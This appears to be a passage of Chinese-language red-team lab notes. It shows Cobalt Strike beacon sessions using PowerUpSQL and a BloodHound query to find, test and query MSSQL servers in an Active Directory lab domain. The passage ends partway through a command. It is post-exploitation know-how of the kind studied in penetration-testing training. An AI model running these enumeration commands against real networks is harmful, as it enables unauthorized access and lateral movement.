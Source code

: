 ```

例子:
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-SQLInstanceDomain

ComputerName     : srv-1.dev.cyberbotic.io
Instance         : srv-1.dev.cyberbotic.io,1433
DomainAccountSid : 15000005210002361191261941702819312113313089172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
LastLogon        : 5/14/2021 2:24 PM
Description      : 
```

BloodHound等价操作，甚至可以查找潜在的mssql管理员
```
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

``` Get-SQLConnectionTest```查找是否可以连接数据库
```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

ComputerName : srv-1.dev.cyberbotic.io
Instance     : srv-1.dev.cyberbotic.io,1433
Status       : Accessible
```

```Get-SQLServerInfo```命令收集更详细的连接实例信息
```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"

ComputerName           : srv-1.dev.cyberbotic.io
Instance               : SRV-1
DomainName             : DEV
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2016
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : Yes
ActiveSessions         : 1
```

```Get-SQLQuery```执行sql命令
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"
